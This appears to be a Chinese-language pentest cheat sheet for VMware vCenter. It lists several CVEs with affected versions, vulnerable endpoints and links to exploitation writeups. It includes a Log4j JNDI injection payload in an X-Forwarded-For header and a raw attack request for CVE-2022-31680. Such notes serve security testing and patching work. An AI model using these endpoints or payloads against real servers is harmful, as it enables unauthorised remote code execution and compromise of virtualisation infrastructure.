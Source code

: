 # vcenter

### 版本查看

```
/sdk/vimServiceVersions.xml
```

### CVE-2021-21972

[VMware vCenter RCE 漏洞踩坑实录——一个简单的RCE漏洞到底能挖出什么知识](https://mp.weixin.qq.com/s/eamNsLY0uKHXtUw_fiUYxQ)

[CVE-2021-21972 vCenter Server 文件写入漏洞分析](https://blog.noah.360.net/vcenter-6-5-7-0-rce-lou-dong-fen-xi/)

```
VMware vCenter Server 7.0系列 < 7.0.U1c
VMware vCenter Server 6.7系列 < 6.7.U3l
VMware vCenter Server 6.5系列 < 6.5 U3n
VMware ESXi 7.0系列 < ESXi70U1c-17325551
VMware ESXi 6.7系列 < ESXi670-202102401-SG
VMware ESXi 6.5系列 < ESXi650-202102101-SG
```

endpoint 

```
/ui/vropspluginui/rest/services/uploadova
```

### CVE-2021-21985

[CVE-2021-21985 VMware vCenter Server远程代码执行漏洞分析](https://www.ghtwf01.cn/2022/07/31/CVE-2021-21985%20VMware%20vCenter%20Server%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/)

```
VMware vCenter Server 7.0系列 < 7.0.U2b
VMware vCenter Server 6.7系列 < 6.7.U3n
VMware vCenter Server 6.5系列 < 6.5 U3p
VMware Cloud Foundation 4.x 系列 < 4.2.1
VMware Cloud Foundation 4.x 系列 < 3.10.2.1
```

### CVE-2021-22005

[vCenter RCE 详细分析过程 (CVE-2021–22005)](https://cloud.tencent.com/developer/article/1887641)

```
VMware vCenter Server 7.0
VMware vCenter Server 6.7 Running On Virtual Appliance
VMware Cloud Foundation (vCenter Server) 4.x
VMware Cloud Foundation (vCenter Server) 3.x
```

### Log4j

endpoint

```
/websso/SAML2/SSO/vsphere.local?SAMLRequest=

X-Forwarded-For: ${jndi:ldap://exp}
```



### CVE-2022-31680

[CVE-2022-31680](https://talosintelligence.com/vulnerability_reports/TALOS-2022-1587)

```
GET /psc/data/constraint/amJzMXszAAAAATMAAAACAAAIRW1wbG95ZWUAASL6C7Hsp5eXAAKXEjO-44rgaCk1FZKH_mF7AQQAAAADAAAGTWFyY2luAAB6aQ HTTP/1.1
Host: 192.168.0.109
Cookie: JSESSIONID=D8E403940B6B595FF53158ED63671A69; XSRF-TOKEN=b28efbac-6d3c-4fcb-b177-baee9c1e005e; VSPHERE-USERNAME=Administrator%40VSPHERE.LOCAL; VSPHERE-CLIENT-SESSION-INDEX=_87577cc1f7ac5bba20fe8d947d9ffcfe
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:103.0) Gecko/20100101 Firefox/103.0
Accept: application/json, text/plain, */*
Accept-Language: pl,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Pragma: no-cache
Isangularrequest: true
X-Xsrf-Token: b28efbac-6d3c-4fcb-b177-baee9c1e005e
Referer: https://192.168.0.109/psc/
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close
```

### 后续利用

[VMware vCenter漏洞实战利用总结](https://mp.weixin.qq.com/s/0gg5TDEtL3lCb9pOnm42gg)

[Vcenter实战利用方式总结](https://mp.weixin.qq.com/s?__biz=Mzg4NTUwMzM1Ng==&mid=2247499057&idx=1&sn=24ce83c75152529f2b8ef8543162a734&chksm=cfa55922f8d2d0349b97211fdf45df6c78b26ace580b68579817ed67760aaface17348529cf3&mpshare=1&scene=23&srcid=10245pAGxEFHmXFGCMoKjGdB&sharer_sharetime=1666572610152&sharer_shareid=33fdea7abe6be586e131951d667ccd06#rd)
